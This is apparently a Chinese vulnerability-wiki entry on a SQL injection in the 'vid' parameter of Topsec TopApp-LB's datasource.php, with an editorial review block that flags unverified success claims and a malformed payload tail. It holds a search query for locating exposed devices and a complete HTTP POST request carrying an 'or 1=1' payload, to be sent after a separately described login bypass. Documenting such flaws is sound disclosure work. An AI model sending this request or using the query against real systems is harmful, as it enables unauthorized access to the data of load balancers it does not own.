


# 天融信 TopApp-LB SQL注入漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Topsec TopAPP-LB
- 本文讨论：datasource.php vid SQL注入
- 版本、权限与配置前提：后台会话，称可配任意登录；无具体版本
- 资料类型：SQL注入PoC摘要；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 任意登录前置未提供步骤/链接；仅OR1=1和截图不含盲注对照
- 正文尾@。。及固定长度需整理；缺修复/原始来源
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 登录绕过独立条件及真实SQL注入证据待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

天融信负载均衡 TopAPP-LB产品旧版本在管理面存在SQL注入漏洞，具体为在可以访问管理服务情况 下，攻击者通过构造恶意请求，利用系统检查输入条件不严格的缺陷，进一步可获取部分系统本地信息

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

利用 **天融信负载均衡TopApp-LB 任意登陆** 使用后台

提交以下数据包


```http
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: 
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
X-Prototype-Version: 1.6.0.3
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
Content-Type: application/x-www-form-urlencoded
Content-Length: 201

t=l&e=0&s=t&l=1&vid=2147483647 or 1=1&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```








存在SQL盲注


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
